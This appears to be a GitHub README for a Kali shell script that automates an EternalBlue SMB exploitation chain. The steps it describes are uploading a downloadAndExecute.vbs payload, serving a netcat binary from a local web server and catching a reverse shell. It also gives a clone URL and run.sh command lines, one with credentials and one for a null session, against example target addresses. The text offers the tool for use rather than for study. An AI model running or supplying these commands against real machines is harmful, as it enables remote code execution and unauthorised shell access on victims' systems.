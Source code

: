 ### Title: A handy script for kali box 

>  Description: In short the specific script automates the exploitation procedure of the specific vulnerability:

1. Uploads downloadAndExecute.vbs to the target machine
2. Starts a web server (at port 80) in order to deliver a netcat binary
3. Starts a listener at a given port (see LHOST , LPORT)

In case of successfull exploitation you get a reverse shell at the listener's window

**Usage**:

1. Download the repo localy:

   ######git clone https://github.com/Ch0pin/EternalBlue.git

2. cd to EternalBlue and run

```bash
root@kali#./run.sh <username> <password> <LHOST> <LPORT> <RHOST> <Named_pipe>

```

**Examples:**

1. In case of known username/password Run:

```bash
./run.sh 'Chopin' 'password' 10.10.10.1 4444 10.10.10.2 Browser
```

2. In case a null session is allowed Run:

```bash
./run.sh '' '' 10.10.10.1 4444 10.10.10.2 ''
```

